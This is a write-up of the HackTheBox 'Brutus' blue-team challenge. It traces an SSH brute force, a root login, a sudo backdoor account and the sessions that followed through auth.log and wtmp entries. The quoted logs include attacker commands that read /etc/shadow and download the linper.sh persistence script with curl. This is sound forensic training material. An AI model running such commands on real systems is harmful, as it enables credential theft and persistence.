


This is Brutus, an easy blue team challenge on HackTheBox.

```
$ 7z x Brutus.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 4242 bytes (5 KiB)

Extracting archive: Brutus.zip
--
Path = Brutus.zip
Type = zip
Physical Size = 4242


Enter password (will not be echoed): [hacktheblue]
Everything is Ok

Files: 2
Size:       55047
Compressed: 4242
```

We have two files:

- `auth.log`
- `wtmp`

Let's go over each of the questions:

### 1. Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

Answer: `65.2.161.68`. This can be deduced from the `auth.log` file where there are many log entries regarding login attempts from this IP address:

```
Mar  6 06:31:39 ip-172-31-35-28 sshd[2398]: Failed password for invalid user svc_account from 65.2.161.68 port 46840 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2396]: Failed password for invalid user svc_account from 65.2.161.68 port 46800 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2400]: Failed password for invalid user svc_account from 65.2.161.68 port 46854 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2383]: Received disconnect from 65.2.161.68 port 46722:11: Bye Bye [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2383]: Disconnected from invalid user svc_account 65.2.161.68 port 46722 [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2384]: Received disconnect from 65.2.161.68 port 46732:11: Bye Bye [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2384]: Disconnected from invalid user svc_account 65.2.161.68 port 46732 [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
```

### 2. The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

Just below the lines I mentioned above, we find this:

```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
```

This clearly shows a succesful login as the `root` user.

### 3. Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

```
$ utmpdump -f wtmp | grep root | grep 65.2.161.68

{"Type":7,"Pid":2549,"Device":"pts/1","Id":"","User":"root","Host":"65.2.161.68","Exit":{"Termination":0,"Exit":0},"Session":0,"Time":"Wed, 06 Mar 2024 07:32:45 CET","Addr":"65.2.161.68"}
```

Searching through the `wtmp` file, we can find an entry for a session as `root` coming from the `65.2.161.68` address, and it has a timestamp of `Wed, 06 Mar 2024 07:32:45 CET`, converted to UTC yields `2024-03-06 06:32:45`.

### 4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

We can use some filtering commands to find the session number in the `auth.log` file for the `root` session opened at the same time (1 second off) as the succesful login:

```
$ cat auth.log | grep root | grep session | grep 06:32

Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

### 5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```
$ cat auth.log | grep sudo

Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

We can see a `cyberjunkie` user being created and being added to the `sudo` group shortly after.

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Let's check the MITRE ATT&CK matrix on the website:



Then we can select the "Create Account" sub-technique:



We will find a sub-technique ID of `T1136.001`.

### 7. What time did the attacker's first SSH session end according to auth.log?

```
$ cat auth.log | grep root | grep closed | grep ssh

Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session closed for user root
Mar  6 06:31:41 ip-172-31-35-28 sshd[2399]: Connection closed by authenticating user root 65.2.161.68 port 46852 [preauth]
Mar  6 06:31:41 ip-172-31-35-28 sshd[2407]: Connection closed by authenticating user root 65.2.161.68 port 46876 [preauth]
Mar  6 06:31:42 ip-172-31-35-28 sshd[2409]: Connection closed by authenticating user root 65.2.161.68 port 46890 [preauth]
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
```

We know the relevant line here is the last one, because the first line was logged before the malicious user even gained access to the system.

### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Since we know higher privileges were used, we can search for anything involving `sudo`:

```
$ cat auth.log | grep sudo | grep -i command

Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The full command being executed using `sudo` is `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

## Conclusion

That wraps up Brutus! I hope you had as much fun puzzling your way through this one as I did!
